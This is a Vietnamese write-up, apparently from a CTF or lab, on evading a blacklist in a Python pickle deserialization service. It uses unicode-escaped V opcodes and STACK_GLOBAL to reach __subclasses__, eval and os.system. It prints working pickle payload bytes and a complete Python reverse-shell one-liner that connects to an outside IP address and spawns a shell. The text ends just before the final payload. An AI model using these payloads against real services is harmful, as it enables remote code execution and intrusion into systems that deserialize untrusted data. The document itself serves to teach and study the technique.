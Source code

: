 ```
    b"(" b"V__import__(\"os\").system(\"whoami\")\n" b"t" b"R"
    b"."
)
```

Tiếp theo ta cần bypass unicode để bypass lượt 
kiểm tra đầu tiên của service. Những giá trị encode này được
 decode trong quá trình unpickle, còn lượt kiểm tra ban đầu chỉ đơn giản
 là kiểm tra chuỗi bytecodes xem có chứa các giá trị trong blacklist 
không mà thôi. Ví dụ, hàm kiểm tra đầu sẽ nhìn `V__globals_\u005f` là chuỗi `__globals_\u005f` trong khi pickle sẽ nhìn thấy `__globals__`.

```
    b"c__main__\n__class__.__base__.__subclasses__\n"
    b"(" b"t" b"R"
    b"p0\n"
```

Hiện tại, ta đang thực hiện thực thi method ban đầu bằng cách sử dụng opcode c **GLOBAL**. opcode này load module theo tên được truyền vào và không thể dùng trick bypass của opcode **V** được. Vậy ta phải tìm một cách khác để load module mà vẫn dùng opcode V để encode những chuỗi sẽ bị cấm.

```
    b"V__main__\n"
    b"V__class__.__base_\u005f.__subclasses__\n"
    b"\x93"
    b"(" b"t" b"R"
    b"p0\n"
```

Ở protocol 4 mặc định sử dụng opcode **STACK_GLOBAL** thay vì là **GLOBAL** và nó linh hoạt hơn rất nhiều khi có thể load từ stack. Như vậy ta chỉ 
việc push hai chuỗi module và attribute lên stack với opcode **V** rồi dùng **\x93** để lấy object là xong. Như ví dụ trên thì thay vì trực tiếp truyền các giá trị vào GLOBAL thì ta push `__main__` và `__class__.__base__.__subclasses__` lên stack, sau đó thực hiện đặt **MARK**, gói **TUPLE** và **REDUCE** như thường để thực hiện gọi method subclasses(). làm tương tự để bypass và ta có kết quả:

![](https://raw.githubusercontent.com/nglong05/bl/main/images/bypass_pickle_image17.png)

Ta đã thành công gọi method eval của python nên có thể trực tiếp sử dụng các payload revshell của python:

```python
export RHOST="13.213.213.17";
export RPORT=10774;
python -c '
import sys,socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("sh")
'
```

Ta có thể thực gói đống này lại vào trong `__import__('os').system('....')` để hoàn thiện thực thi revshell. Payload cuối cùng với unicode kí tự `_` và `s`, ở đây ta có thể nhảy vào trong docker hoặc brute force xem os.*wrap_close* nằm ở index nào, trong trường hợp này là 134:
